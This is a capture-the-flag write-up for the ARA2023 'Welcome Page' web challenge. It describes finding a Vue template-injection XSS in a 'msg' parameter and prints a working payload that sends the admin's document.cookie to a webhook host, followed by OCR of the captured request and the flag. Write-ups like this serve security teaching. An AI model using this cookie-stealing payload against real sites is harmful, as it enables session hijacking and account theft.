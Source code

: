 # Welcome Page
> Flag is on the admin cookie.

## About the Challenge
Given 2 websites, a plain website and the admin bot, we will probably do XSS to get the admin cookies. If you open the link, a plain website will appear and the words `Welcome!` this happens because there is 1 GET parameter named `msg` whose value we can change.


[Image extracted text: Welcomel
Ba]


## How to Solve?
When viewing the source code, it can be identified that this website uses Vue. And after searching especially on the [portswigger website](https://portswigger.net/web-security/crosssitescripting/cheat-sheet) I found a working payload which is

```
http://103.152.242.116:8413/?msg={{_openBlock.constructor('alert(1)')()}}
```


[Image extracted text: 103.152.242.116.8413 says
OK]


After confirming that an alert appears, using a webhook on the XSS payload so that we can get the admin cookies

```
http://103.152.242.116:8413/?msg={{_openBlock.constructor('location.href="https://webhook/?test="+document.cookie')()}}
```

Send the XSS payload to the admin and get the cookies


[Image extracted text: Request Details
Permalink
Raw content
Expont as-
GET
https Ilwebhook sitelZbbegOae-7e2d-4754-8dfd-aa2f03f9a16e/?test-flag-ARA2023{sUp3r
s3cr3t_cOOk13_1s_h3r3}
Host
103.152.242.116 whois
Date
02/26/2023 9.25.58 AM (10 hours ago)
Size
bytes
3010269a-78da-483f-9533-1e660efbO5bd]


```
ARA2023{sUp3r_s3cr3t_c00k13_1s_h3r3}
```